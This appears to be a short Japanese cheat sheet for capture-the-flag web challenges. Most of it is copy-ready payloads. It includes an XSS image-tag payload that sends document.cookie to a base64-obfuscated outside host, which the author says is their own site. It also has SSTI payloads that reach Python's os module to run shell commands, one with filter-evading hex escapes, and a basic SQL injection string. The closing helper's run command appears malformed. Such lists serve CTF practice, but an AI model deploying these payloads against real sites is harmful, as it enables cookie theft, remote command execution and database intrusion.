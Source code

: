 # CTFチートシート
## 目次
{:toc}

---
## Web問
### XSS
```html:XSS
&lt;img src=x onerror=fetch(atob('aHR0cHM6Ly9tYXNhLWNvb2tpZXMtc3RlYWxlci5wYWdlcy5kZXYv')+?cookie='+document.cookie)&gt;
```
この場合は、僕のサイトにクッキーを送信する。
### SSTI
問題にどこにファイルがあるかわからない時には
```python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
### SQLインジェクション
まず最初に、**'** や、**"** を試す
エラーを吐いたら、次に、
```mysql:sqlinjection
' OR 1=1 --
```
を試してみる

---
## Crypto問
**https://gchq.github.io/CyberChef/** がいい

---
## おまけ
n回後にmを入力するのを繰り返しするためのコード
```python:n_input
for i in range(100):
  for j in range(200):
    print(1)
  print(2)
```
実行方法:```shellscript:python
python n_input || 入力を自動化したいもの
```


